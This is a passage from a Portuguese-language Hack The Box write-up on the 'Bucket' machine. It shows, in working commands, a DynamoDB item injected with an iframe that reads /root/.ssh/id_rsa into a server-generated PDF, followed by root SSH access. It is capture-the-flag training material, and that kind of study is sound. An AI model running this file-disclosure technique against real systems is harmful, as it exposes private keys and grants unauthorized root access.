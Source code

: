 Uma vez que conseguimos renderizar o conteúdo desejado, precisamos encontrar uma forma de incluir arquivos na página renderizada e que resulta no PDF, de modo a dar continuidade na exploração.

A forma mais fácil de obter o root flag seria importar o arquivo `/root/root.txt`, porém isso não nos dá um shell reverso de fato. Seguindo o exemplo da máquina [**Passage**]({% post_url 2021-01/2021-03-06-htb-passage %}), podemos buscar por um arquivo `/root/.ssh/id_rsa` e nos conectar à máquina via shell interativo, porém nosso maior problema no momento é inserir o conteúdo destes em um arquivo HTML.

Após algumas pesquisas, a forma mais simples de alcançar este objetivo sem o uso de Javascript é utilizando um **iframe**, onde as alterações, para a qual incluí a tag `<iframe src="/root/.ssh/id_rsa" seamless></iframe>` no HTML utilizado anteriormente, conforme chamadas abaixo:

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
aws dynamodb put-item \
    --table-name alerts \
    --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head><title>Title</title></head><body><h1>Head 1</h1><iframe src=\"/root/.ssh/id_rsa\" seamless></iframe></body></html>"}}' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
curl --data "action=get_alerts" http://localhost:8000/    
```

Após o procedimento foi possível baixar o aquivo `/var/www/bucket-app/files/result.pdf` e, com o conteúdo presente neste arquivo, criar o arquivo `id_rsa`, o qual foi posteriormente utilizado para conectar-se à máquina via SSH e obter a shell a partir do usuário `root`.

```bash
root@bucket:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bucket:~# cat /root/root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês novamente em breve no próximo post! :smiley:
